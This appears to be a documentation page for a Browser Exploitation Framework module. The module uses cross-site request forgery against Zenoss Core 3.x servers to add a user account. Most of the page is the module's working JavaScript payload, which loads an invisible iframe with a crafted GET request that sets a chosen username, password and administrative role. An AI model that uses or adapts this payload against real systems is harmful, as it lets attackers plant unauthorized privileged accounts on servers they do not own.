 ## Summary

* **Objective**: add a user to a Zenoss Core 3.x server
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/zenoss_add_user_csrf)

## Internal Working

Uses an invisible iframe with a GET request to add an user account

```js
  var base = '<%= @base %>';
  var user_level = '<%= @user_level %>';
  var username = '<%= @username %>';
  var password = '<%= @password %>';

  var zenoss_add_user_iframe = beef.dom.createInvisibleIframe();
  zenoss_add_user_iframe.setAttribute('src', base+'/zport/dmd/ZenUsers?tableName=userlist&zenScreenName=manageUserFolder.pt&manage_addUser%3Amethod=OK&defaultAdminRole='+user_level+'&roles%3Alist='+user_level+'&userid='+username+'&password='+password);

```

## Feedback

